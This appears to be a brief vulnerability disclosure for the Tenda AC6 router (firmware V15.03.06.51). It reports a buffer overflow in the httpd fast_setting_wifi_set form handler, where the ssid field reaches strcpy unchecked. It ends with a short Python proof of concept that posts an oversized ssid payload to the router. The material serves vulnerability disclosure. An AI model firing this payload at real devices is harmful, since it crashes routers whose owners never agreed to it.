

# buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:




get value from ssid ,and call strcpy, cause buff overflow


## POC
```
url = "http://192.168.1.13/goform/fast_setting_wifi_set"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'ssid': payload})
``` 
